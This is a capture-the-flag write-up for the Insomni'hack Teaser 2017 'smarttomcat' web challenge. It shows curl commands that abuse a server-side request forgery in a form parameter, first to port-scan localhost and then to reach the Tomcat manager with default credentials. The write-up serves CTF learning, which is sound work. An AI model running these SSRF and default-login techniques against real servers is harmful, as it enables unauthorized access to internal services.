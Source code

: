 ```yaml
---
layout: post
title: "CTF: Solving smarttomcat challenge from Insomnihack Teaser 2017"
author: capitol
category: ctf
---
```

![channel](/images/SleepyTomcat.jpg)

#####category:
web
#####points:
50

####Writeup
The Insomni'hack teaser 2017 was a fun CTF with a good spread between easy and hard challenges.

The smarttomcat challenge was an easy web challenge that was about attacking a badly secured tomcat server, as a user you where presented with a webpage that had an backend written in php, that backend called a tomcat server on localhost.

When looking at the form post data from the browser it became apparant that the url that the backend called was submitted by the form.

This enabled us to write a port scan as a simple bash loop:

```bash
for x in $(seq 1 65535); do echo $x >> /tmp/log && curl 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data "u=http%3A%2F%2Flocalhost%3A$x%2F" >> /tmp/log;done
```

This didn't really help us. And we realized that we could access the tomcat management url on the same port as the rest of the application. A simple google gave us the default username and password.

####Solution
```bash
curl 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data 'u=http://tomcat:tomcat@127.0.0.1:8080/manager/html'
```
